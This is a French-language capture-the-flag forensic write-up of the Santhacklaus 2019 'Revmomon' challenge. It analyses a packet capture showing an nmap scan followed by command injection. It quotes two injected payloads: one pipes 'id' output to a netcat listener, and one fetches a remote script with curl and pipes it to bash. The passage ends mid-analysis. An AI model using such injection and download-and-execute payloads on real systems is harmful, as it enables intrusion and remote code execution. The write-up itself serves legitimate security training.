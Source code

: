 # [Santhacklaus 2019] - Revmomon



> Suspicious activity has been detected. Probably nothing to be scared about but take a look anyway.
> If you find anything, a backdoor, a malware or anything of this kind, flag is the sha256 of it.
> MD5 of the file : c93adc996da5dda82312e43e9a91d053
> PCAP : https://mega.nz/#!eqQV3SwD!_jAfHMqMw9d-LIDoTDR9JziwNicsxkYymS87eR4pLUg

### Etat des lieux

A l'ouverture du PCAP, on peut voir énormément de paquets entre l'ip `172.17.0.5` et `172.17.0.1`. Du premier paquet au 170281, c'est une alternance de paquets SYN / RST, caractéristique d'un Stealth Scan de nmap. Il est possible de le voir autrement grâce aux premiers ports scannés : 

![](https://i.imgur.com/WYt7gPe.png)

Enfin le user agent "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)" est plutot clair.

La première hypothèse est de voir que l'ip `172.17.0.1` est l'attaquant et `172.17.0.5` est l'attaqué. Il y a un peu de traffic externe, pour ne pas se faire polluer par le reste, un premier filtre est de rigueur : 

> ip.addr == 172.17.0.1 && ip.addr == 172.17.0.5

Au final la première réelle action utilisateur semble être au stream TCP 85663, car un paramètre POST valide, avec un argument cohérent est passé.

### Point d'entré de l'attaquant

Au stream TCP 85664, on peut voir qu'une injection de commande a été tentée : 

![](https://i.imgur.com/s77Wuf0.png)

> 127.0.0.1; id | nc 172.17.0.1 12345

Et cette injection de commande a l'air d'avoir fonctionné : 

![](https://i.imgur.com/qhUtVxO.png)

### Exploitation de l'attaquant

L'attaquant semble executer un script en mémoire : 

![](https://i.imgur.com/enqXS1Y.png)

> 127.0.0.1 ; curl -k https://172.17.0.1/a.sh | bash

Bien entendu ce site n'est pas accessible il n'est pas possible de récupérer le script __a.sh__. Les stream tcp suivant (85667 / 85668) doit être le téléchargement wget via https.
Une différence intéressante réside dans le changement de port entre le stream 85668 (port 443 sur l'ip de l'attaquant) et le stream 85669 (port 8443 sur l'ip de l'attaquant).
Vu la tete des paquets TCP, on peut se douter que c'est du TLS : 
